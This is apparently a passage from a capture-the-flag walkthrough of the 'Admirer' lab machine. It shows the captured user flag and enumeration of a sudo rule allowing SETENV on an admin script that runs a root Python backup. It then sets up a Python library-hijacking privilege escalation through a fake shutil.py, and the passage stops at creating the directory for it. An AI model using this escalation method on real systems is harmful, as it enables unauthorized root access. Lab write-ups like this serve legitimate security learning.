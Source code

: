 user flag: 
```shell
waldo@admirer:~$ cat user.txt  
70b98c6e7c3d753017c20f10184ce382
```

time to escalate privileges and see what waldo is permitted to do. 
```shell
waldo@admirer:~$ sudo -l  
[sudo] password for waldo:  
Matching Defaults entries for waldo on admirer:  
env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always  
  
User waldo may run the following commands on admirer:  
(ALL) SETENV: /opt/scripts/admin_tasks.sh
```

where the `admin_tasks.sh` file looks kind of interesting and warrants further investigation.

a specific part of the bash-script runs a python script. 
```bash
backup_web()  
{  
    if [ "$EUID" -eq 0 ]  
    then  
        echo "Running backup script in the background, it might take a while..."  
        /opt/scripts/backup.py &  
    else  
        echo "Insufficient privileges to perform the selected operation."  
    fi  
}
```

and the python script looks like: 
```python
#!/usr/bin/python3  
  
from shutil import make_archive  
  
src = '/var/www/html/'  
  
# old ftp directory, not used anymore  
#dst = '/srv/ftp/html'  
  
dst = '/var/backups/html'  
  
make_archive(dst, 'gztar', src)
```

because `shutil` is imported, we'll use that for some hijacking.

create our own `shutil.py` with under `/tmp/temp`

```shell
mkdir -p /tmp/temp
```
